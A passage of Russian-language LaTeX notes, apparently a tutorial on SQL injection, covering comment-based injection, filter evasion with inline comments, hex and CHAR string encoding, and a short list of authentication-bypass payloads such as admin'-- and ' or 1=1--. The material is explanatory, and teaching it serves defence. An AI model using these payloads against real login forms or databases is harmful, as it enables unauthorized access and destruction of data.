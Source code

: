 \begin{itemize}
    \item \textbf{Атаки комментированием}\\
    Использование однострочных комментариев позволяет игнорировать часть запроса, идущую после вашей инъекции. Например, ввод в уязвимое поле Username запроса admin'-- позволит зайти на ресурс под администратором, потому что поверка пароля будет закомментирована.\\
    \begin{grayquote}
        SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'
    \end{grayquote}

    Многострочные комментарии могут справится с проверкой или определить тип базы данных.
    Например, подобные запросы обойдут примитивный текстовый анализ:\\
    \begin{grayquote}
        DROP/*some comment*/sampletable\\
        DR/**/OP/*random comment to cheat*/sampletable
    \end{grayquote}

    \item \textbf{Манипуляции со строками}\\
    При помощи конкатенации строк можно обходить фильтр кавычек.\\
    \begin{grayquote}
        SELECT CONCAT(login, password) FROM members
    \end{grayquote}

    Можно представлять строки в шеснадцатиричном виде, с помощью функции HEX() или вводить их посимвольно.
    \begin{grayquote}
        //0x633A5C626F6F742E696E69 == c:\textbackslash boot.ini\\
        SELECT CONCAT('0x','633A5C626F6F742E696E69'))\\
        SELECT CONCAT(CHAR(75),CHAR(76),CHAR(77))
    \end{grayquote}

    \item \textbf{Обход аутентификации}\\
    При помощи OR и сравнения констант можно обойти форму аутентификации. Существуют даже словари, содержащие основные запросы для обхода уязвимой формы

    Примеры запросов:\\
    \begin{grayquote}
        ' or 1=1\\
        ' or 1=1--\\
        ' or 1=1\#\\
        admin' --\\
        admin' or '1'='1
    \end{grayquote}


\end{itemize}
